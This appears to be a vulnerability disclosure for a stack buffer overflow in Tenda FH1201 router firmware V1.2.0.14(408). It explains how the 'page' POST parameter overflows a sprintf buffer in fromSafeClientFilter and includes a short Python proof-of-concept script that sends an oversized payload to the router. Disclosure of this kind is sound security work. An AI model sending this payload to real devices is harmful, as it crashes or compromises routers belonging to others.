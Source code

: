 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3322.html

## Affected version

FH1201 Firmware  V1.2.0.14(408)

## Vulnerability details

The Tenda FH1201 Firmware  V1.2.0.14(408) has a stack overflow vulnerability located in the `fromSafeClientFilter` function. This function accepts the `page` parameter from a POST request. The statement `sprintf(v15, "firewall_clientlist.asp?page=%s", v10);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v15` array, thus triggering this security vulnerability.

![image-20240731134037581](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731134037581.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SafeClientFilter"
payload = b"a"*1000

data = {"page": payload, "menufacturer": "1"}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240731133213595](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731133213595.png)